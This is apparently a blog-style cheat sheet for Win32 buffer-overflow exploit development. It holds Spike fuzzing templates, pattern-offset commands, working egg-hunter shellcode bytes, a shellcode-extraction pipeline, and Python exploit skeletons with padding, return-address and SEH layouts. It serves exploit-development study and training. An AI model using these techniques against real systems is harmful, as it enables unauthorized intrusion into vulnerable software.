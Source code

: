 ```yaml
---
layout: post
title: 'Win32 Exploit Development Cheat Sheet'
---
```



# Fuzzing

Spike Template

```javascript
s_string(“GET “);
s_string_variable(” “);
s_string(” HTTP/1.1\r\n”);
s_string(“Host: “);
s_string_variable(“1.1.1.1\r\n\n”);
```

Spike command

```javascript
./generic_send_tcp <Target-IP> <Target-Port> <script-file> 0 0
```

Offset Calculation

```javascript
./pattern_create -l 5000
./pattern_offset -q OVERFLOW_PATTERN
```

# Egg Hunter

```javascript
Egg "w00t" = "\x77\x30\x30\x74"

egghunter= "\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8\x77\x30\x30\x74\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7"
```

# Shellcode

Compiling & Extract Shellcode from a Binary
```javascript
nasm -f elf32 -o myobj.o myfile.nasm

# use "objdump" to extract the shellcode out from the generated object file "myobj.o"
objdump -d myobj.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Links

[Writing windows shellcode](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html)

[Linux - Windows shellcode](http://www.vividmachines.com/shellcode/shellcode.html)

[Custom Shellcode without WinExec](http://www.gosecure.it/blog/art/452/sec/create-a-custom-shellcode-using-system-function/)

[Get Shellcode From Binary](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)



# Exploit

Skeleton Without Class

```python
import struct

def p(x):
	return struct.pack("<L", x)

def write(payload):
	f = open("poc.txt", "w")
	f.write(payload)
	f.close()

if __name__ == "__main__":
	# TODO: Change me!
	shellcode = (
	)

	padding = "A" * 666

	# TODO: Change me!
	payload = padding
	payload += p(0xdeadbeef)
	payload += shellcode

write(payload)
```


With Class

```python
class Exploit:

	def __init__(self, shellcode):
		self._shellcode = shellcode
		self._payload = None

	def __write(self):
		f = open("poc.txt", "w")
		f.write(self._payload)
		f.close()

	def run(self):
		pattern = "A" * 666

		# TODO: Change me!
		self._payload = pattern

		self.__write()

def main():
	# TODO: Change me!
	shellcode = (
	)

	exploit = Exploit(shellcode)
	exploit.run()

if __name__ == "__main__":
     main()
```

Example

```python
buffer = junk + ret + shellcode

buffer = junk + nseh + seh + shellcode

```
